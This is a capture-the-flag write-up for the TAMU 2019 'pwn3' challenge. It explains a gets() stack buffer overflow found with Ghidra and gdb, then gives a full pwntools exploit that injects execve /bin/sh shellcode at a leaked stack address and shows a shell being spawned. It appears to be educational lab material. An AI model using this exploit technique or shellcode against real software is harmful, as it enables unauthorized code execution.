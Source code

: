 # Tamu 2019 Pwn 3

Let's take a look at the binary:

```
$	file pwn3 
pwn3: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=6ea573b4a0896b428db719747b139e6458d440a0, not stripped
$	./pwn3 
Take this, you might need it on your journey 0xffa1c61e!
15935728
```

So we are dealing with a 32 bit binary. When we run it, it prints out what looks like a stack address and prompts us for input. When we take a look at the main function in Ghidra, we see this:

```
/* WARNING: Type propagation algorithm not settling */

undefined4 main(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax(&stack0x00000004);
  setvbuf((FILE *)(*(FILE **)(iVar1 + 0x19fd))->_flags,(char *)0x2,0,0);
  echo();
  return 0;
}
```

Looking through the main function, the most important thing here is that it calls the `echo` function. Let's take a look at that function in Ghidra:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void echo(void)

{
  char input [294];
  
  printf("Take this, you might need it on your journey %p!\n",input);
  gets(input);
  return;
}
```

So we can see that this function prints the address of the char buffer `input`, then calls `gets` with `input` as an argument. This is a bug since `gets` doesn't restrict how much data it scans in, we get an overflow. With this we can overwrite the return address and get code execution. The question is now what do we call? There aren't any functions that will either print the flag or give us a shell like in some of the previous challenges. We will instead be using shellcode.

Shellcode is essentially just precompiled code that we can inject into a binary's memory, and if we redirect code execution to it it will run. It will need to match the architecture, so we will need to have arm for x86 linux. Whenever I need just generic shellcode I typically grab it from http://shell-storm.org/shellcode/ (or you could just google for shellcode, or make it yourself which we will cover later). I'll be using the `Linux/x86 - execve /bin/sh shellcode - 23 bytes` shellcode by `Hamza Megahed` found at `http://shell-storm.org/shellcode/files/shellcode-827.php`. The shellcode I'm using will just pop a shell for us when we run it.

Now we can inject it into memory, however we need to deal with something called ASLR (Address Space Layout Randomization). This is a binary mitigation (a mechanism made to make pwning harder). What it does is it randomizes all of the addresses for various memory regions, so every time the binary runs we don't know where things are in memory. While the addresses are random, the offsets between things in the same memory region remain the same. So if we just leak a single address from a memory region that we know what it is, since the offsets are the same we can figure out the address of anything else in the memory region.

This also applies to where our shellocde is stored in memory, which we need to know in order to call it. Luckily for us, the address printed is the start of our input on the stack. So we can just take that address and overwrite the return address with it, to call our shellcode.

Let's use gdb to see how much space we have between the start of our input and the return address:

```
gef➤  disas echo
Dump of assembler code for function echo:
   0x0000059d <+0>:	push   ebp
   0x0000059e <+1>:	mov    ebp,esp
   0x000005a0 <+3>:	push   ebx
   0x000005a1 <+4>:	sub    esp,0x134
   0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
   0x000005ac <+15>:	add    ebx,0x1a20
   0x000005b2 <+21>:	sub    esp,0x8
   0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
   0x000005bb <+30>:	push   eax
   0x000005bc <+31>:	lea    eax,[ebx-0x191c]
   0x000005c2 <+37>:	push   eax
   0x000005c3 <+38>:	call   0x410 <printf@plt>
   0x000005c8 <+43>:	add    esp,0x10
   0x000005cb <+46>:	sub    esp,0xc
   0x000005ce <+49>:	lea    eax,[ebp-0x12a]
   0x000005d4 <+55>:	push   eax
   0x000005d5 <+56>:	call   0x420 <gets@plt>
   0x000005da <+61>:	add    esp,0x10
   0x000005dd <+64>:	nop
   0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000005e1 <+68>:	leave  
   0x000005e2 <+69>:	ret    
End of assembler dump.
gef➤  b *echo+61
Breakpoint 1 at 0x5da
gef➤  r
Starting program: /Hackery/pod/modules/bof_shellcode/tamu19_pwn3/pwn3 
Take this, you might need it on your journey 0xffffcf3e!
15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcf3e  →  "15935728"
$ebx   : 0x56556fcc  →  <_GLOBAL_OFFSET_TABLE_+0> aam 0x1e
$ecx   : 0xf7faf5c0  →  0xfbad2288
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffcf20  →  0xffffcf3e  →  "15935728"
$ebp   : 0xffffd068  →  0xffffd078  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0       
$eip   : 0x565555da  →  <echo+61> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────── stack ────
0xffffcf20│+0x0000: 0xffffcf3e  →  "15935728"	 ← $esp
0xffffcf24│+0x0004: 0xffffcf3e  →  "15935728"
0xffffcf28│+0x0008: 0xffffcf4c  →  0x00000000
0xffffcf2c│+0x000c: 0x565555ac  →  <echo+15> add ebx, 0x1a20
0xffffcf30│+0x0010: 0x00000000
0xffffcf34│+0x0014: 0x00000000
0xffffcf38│+0x0018: 0x00000000
0xffffcf3c│+0x001c: 0x35310000
─────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565555ce <echo+49>        lea    eax, [ebp-0x12a]
   0x565555d4 <echo+55>        push   eax
   0x565555d5 <echo+56>        call   0x56555420 <gets@plt>
 → 0x565555da <echo+61>        add    esp, 0x10
   0x565555dd <echo+64>        nop    
   0x565555de <echo+65>        mov    ebx, DWORD PTR [ebp-0x4]
   0x565555e1 <echo+68>        leave  
   0x565555e2 <echo+69>        ret    
   0x565555e3 <main+0>         lea    ecx, [esp+0x4]
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn3", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565555da → echo()
[#1] 0x5655561a → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x565555da in echo ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rwx
  0x56558160 - 0x56558168  →   "15935728" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffcf3e - 0xffffcf46  →   "15935728" 
gef➤  info frame
Stack level 0, frame at 0xffffd070:
 eip = 0x565555da in echo; saved eip = 0x5655561a
 called by frame at 0xffffd090
 Arglist at 0xffffd068, args: 
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebx at 0xffffd064, ebp at 0xffffd068, eip at 0xffffd06c
```  

Just a bit of math:

```
>>> hex(0xffffd06c - 0xffffcf3e)
'0x12e'
```

So the space between the start of our input and the return address is `0x12e` bytes. This makes sense since the char array which holds our input is `294` bytes large, and there are two saved register values (ebx and ebp) on the stack in between our input and the saved return address each `4` bytes a piece (`294 + 4 + 4 = 0x12e`). With all of this, we have all we need to write the exploit:

```
from pwn import *

target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print target.recvuntil("journey ")

# Scan in the rest of the line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(leak.strip("!\n"), 16)

# Make the payload
payload = ""
# Our shellcode from: http://shell-storm.org/shellcode/files/shellcode-827.php
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
# Pad the rest of the space to the return address with zeroes
payload += "0"*(0x12e - len(payload))
# Overwrite the return address with te leaked address which points to the start of our shellcode
payload += p32(shellcodeAdr)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()
```

When we run it:
```
$	python exploit.py 
[+] Starting local process './pwn3': pid 5149
Take this, you might need it on your journey 
[*] Switching to interactive mode
$ w
 19:33:06 up  2:19,  1 user,  load average: 0.01, 0.05, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               17:14    2:19m 40.15s  0.16s /sbin/upstart --user
$ ls
exploit.py  pwn3
```

Just like that, we popped a shell!